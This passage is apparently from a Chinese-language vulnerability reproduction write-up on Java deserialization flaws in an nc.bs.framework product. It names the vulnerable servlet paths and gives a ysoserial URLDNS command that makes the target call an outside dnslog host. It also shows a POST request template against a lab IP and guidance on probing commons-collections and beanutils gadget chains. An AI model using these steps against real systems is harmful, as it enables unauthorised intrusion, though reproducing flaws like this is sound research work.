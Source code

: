 ```php
<?xml version='1.0' encoding='utf-8'?>
<module>
    <public>
        <component name="mxservlet">
            <implementation>nc.bs.framework.mx.MxServlet</implementation>
        </component> 
        <component name="monitorservlet">
            <implementation>nc.bs.framework.mx.monitor.MonitorServlet</implementation>
        </component> 
    </public>
</module>
```

根据之前的路由规则以及实例化服务类的方式，用组件名称就能构造出可以触发漏洞路径`/service/mxservlet`和`/service/monitorservlet`  
在寻找其他反序列化漏洞时，正好发现一个通告，对通告中的服务类进行查找，尝试复现该漏洞。  
![image.png](https://shs3.b.qianxin.com/butian_public/f170108f1a92737bcd7b73139f6c549387ba9558397a4.jpg)  
在uapsystemframework.jar源码中发现FileManageServlet类的doAction方法存在与之前类似的反序列化的问题。  
![image.png](https://shs3.b.qianxin.com/butian_public/f723872653d55d6967a061dcd47f17752b9d0bd42519d.jpg)  
参照前文可构造漏洞路径`/service/FileManageServlet`，后面需要对以上的触发路径进行验证。

反序列化漏洞验证
--------

在利用cc链进行命令执行前，可以使用URLDNS对之前的阅读源码的理解进行验证。

> java -jar ysoserial-all.jar URLDNS "[http://mxtest.97886226fd.ipv6.1433.eu.org."](https://97886226fd.ipv6.1433.eu.org./) &gt;mxtest.bin

之后，构造请求数据包，请求的路径为之前构造出来的路径，以`/service/mxservlet`为例  
将生成的序列化数据直接从文件中粘贴。

```php
POST /service/mxservlet HTTP/1.1
Host: 192.168.126.131:8088
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Content-Type: application/data
Cookie: JSESSIONID=AE08AAAA9C9FC99389408FE028A93302.server
Connection: close
```

![image.png](https://shs3.b.qianxin.com/butian_public/f767022251ed5be0f531e17d4b5985b72ea21682f040a.jpg)  
在dnslog中获得请求，证明该路径下确实存在对请求数据包中的对象直接反序列化的问题。  
![image.png](https://shs3.b.qianxin.com/butian_public/f761724d818d7cb9e7119b6f2c93dcd9394a73ad44a50.jpg)  
为了对反序列化利用链进行探测，向大家推荐一下Yakit的Fuzztag功能。通过dnslog对可用的利用链进行初步判断。  
![image.png](https://shs3.b.qianxin.com/butian_public/f998838d812287085b45a02520052b1e0cded4d18af8f.jpg)  
domain填写个dnslog的域名即可。  
![image.png](https://shs3.b.qianxin.com/butian_public/f71682380ecf2b4c7fd632b843acc35a60b7216719697.jpg)  
发送数据包后，在dnslog中收到如下信息：  
![image.png](https://shs3.b.qianxin.com/butian_public/f2149026ea7d71fc8eb3ddce66156ba46393b37ee7b0f.jpg)  
从获得的信息可知，当前服务器为windows。其中cc31or321、cc41和cb17、cb18是指探测到的cc、cb依赖版本。对比版本号可以很方便的看出，可以使用影响commons-collections3版本的CC1/3/5/6/7链，也可以使用CB183链。  
但是需要注意探测出来的利用链并非均可利用，因为还会受到jdk版本影响。比如，CC1/3链因为在jdk 8u71版本中进行了修复，因此在之后的版中jdk版中无法利用，而CC6链则不受jdk版本影响。  
检查一下该系统中依赖，发现正好有用到commons-collections 3.2.1；commons-beanutils 1.8.0
